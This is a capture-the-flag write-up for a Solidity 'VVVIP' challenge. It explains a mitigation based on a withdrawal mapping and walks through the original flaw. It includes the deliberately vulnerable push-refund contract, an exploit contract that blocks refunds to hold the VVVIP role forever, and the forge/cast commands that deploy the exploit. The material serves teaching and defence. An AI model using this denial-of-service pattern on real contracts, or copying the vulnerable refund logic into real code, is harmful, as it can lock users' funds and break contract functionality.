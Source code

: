 ## Mitigation 

In the lab you've just done, you know that you can become the FOREVER VVVIP Member by making a smart contract that couldn't receive any Ether in order to make the refund fail, but know we are going to learn how to mitigate such vulnerability. The vulnerability lies in here. &nbsp;  
&nbsp;  

```solidity
function becomeVVVVIP() external payable{
    require(msg.value > currentBalance, "You don't have enough money to become VVVIP!");
    (bool refund, ) = currentVVVIP.call{value: currentBalance}(""); 
    require(refund, "The fund is not given back!");
    if(currentVVVIP == address(0)){
        currentVVVIP = msg.sender;
        currentBalance = msg.value;
    }
    currentVVVIP = msg.sender;
    currentBalance = msg.value;
}
```
&nbsp;  
The easiest mitigation that we can implement here is just not to immediately send the balance if one position is taken by another—by calling this function with higher Ether, what we can do is make a mapping for each balance and a withdraw function to make allow pass VVVIP to withdraw their own balance, so the mitigated contract would look like this. &nbsp;  
&nbsp;  

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.25;

contract VVVIP{
    address private currentVVVIP;
    uint256 private currentBalance;
    mapping(address => uint256) public balances;

    function becomeVVVVIP() external payable{
        balances[msg.sender] += msg.value;
        require(balances[msg.sender] > currentBalance, "You don't have enough money to become VVVIP!");
        currentVVVIP = msg.sender;
        currentBalance = balances[msg.sender];
    }

    function withdraw() public{
        require(msg.sender != currentVVVIP, "VVVIP Cannot withdraw balance!");
        uint256 toWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        (bool sent, ) = msg.sender.call{value: toWithdraw}("");
        require(sent, "Withdrawal failed!");
    }


    function getVVVVIP() public view returns(address, uint256){
        return (currentVVVIP, currentBalance);
    }

}
```
&nbsp;  
If you want to try your previous exploit against this new mitigated contract, you need to change the *Setup.sol::TryIfSolve()* to the one like below to ensure that the function tries to become VVVIP again. &nbsp;  
&nbsp;  

```solidity
   function TryIfSolve() public payable {
        vvvip.becomeVVVVIP{value: 10 ether}();
    }
```
&nbsp;  
Although most developers take their time and put in much effort to ensure that logic, calculation, and interactions are functioning as intended, some times there will be an unexpected behavior that they may not realize, that often leads to something like DoS.

## Walkthrough 

Becoming a VVVIP member always has the downside, like how easily you can be replaced by others, but what if we can make ourselves forever a VVVIP member? That's the task that we are going to tackle in this challenge; the *isSolved()* condition, as seen below, is quite unique. &nbsp;  
&nbsp;  

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import "./VVVIP.sol";

contract Setup{
    VVVIP public immutable vvvip;
    bool public solved;

    constructor() payable {
        require(msg.value == 15 ether);
        vvvip = new VVVIP();
        vvvip.becomeVVVVIP{value: 3 ether}();
    }

    function TryIfSolve() public payable {
        try vvvip.becomeVVVVIP{value: 10 ether}() {
            (address amIVVVVIP, ) = vvvip.getVVVVIP();
            require(amIVVVVIP != address(this), "You are still VVVIP member!");
            solved = false;
        } catch {
            solved = true;
        }
    }

    function isSolved() public view returns(bool){
        return solved;
    }

    receive() external payable{}

}
```
&nbsp;  
Initially, the Setup Contract is the current VVVIP Member with 3 Ether worth, but there is a function *TryIfSolve()*; this function will run in order to change the *solved()* value. If the Setup succeeds to reclaim his Membership, then we are going to receive our money back and we lost our VVVIP Member status, but if we check our balance using this command &nbsp;  
&nbsp;  
```bash
cast balance -r $RPC_URL $WALLET_ADDR
```
&nbsp;  
Turns out we only have 7 Ether, so how come we can hold our status as the VVVIP Member if the setup is going to reclaim it with 7 Ether? Let's see the VVVIP contract first. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

contract VVVIP{
    address private currentVVVIP;
    uint256 private currentBalance;

    function becomeVVVVIP() external payable{
        require(msg.value > currentBalance, "You don't have enough money to become VVVIP!");
        (bool refund, ) = currentVVVIP.call{value: currentBalance}(""); 
        require(refund, "The fund is not given back!");
        if(currentVVVIP == address(0)){
            currentVVVIP = msg.sender;
            currentBalance = msg.value;
        }
        currentVVVIP = msg.sender;
        currentBalance = msg.value;
    }

    function getVVVVIP() public view returns(address, uint256){
        return (currentVVVIP, currentBalance);
    }

}
```
&nbsp;  
There we can see the logic, so the first person to interact with it will automatically become the VVVIP Member, which is the Setup with 3 Ether worth. When someone tries to challenge the VVVIP Member, if the Ether sent to challenge is less than the current VVVIP Member worth, it will revert; otherwise,  it will refund the worth of the previous VVVIP Member and set the new VVVIP Member alongside the Ether worth. &nbsp;  
&nbsp;  
The logic there seems flawless, but what if I told you we don't have to be the ones to interact with it? We can just create an exploit contract that has no way of receiving Ether. Why would this work? Since the way of refund is required to be successful, if we just make it fail every time, our VVVIP Member status won't be revoked, so here is the exploit contract. &nbsp;  
&nbsp;  

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import "./VVVIP.sol";
import "./Setup.sol";

contract Exploit{
    Setup public setup;
    VVVIP public vvvip;

    constructor(address payable _setup) payable{
        require(msg.value == 4 ether);
        setup = Setup(_setup);
        vvvip = VVVIP(setup.vvvip());
    }

    function exploit() public {
        vvvip.becomeVVVVIP{value: 4 ether }();
    }

}
```
&nbsp;  
We just need to deploy it and give it 4 Ether to work. &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit Contract
forge create src/vvvip-member/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR --value 4ether

// Interacting with the Exploit
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"
```
&nbsp;  
Running the command above and making the exploit contract become the forever VVVIP member will solve the challenge!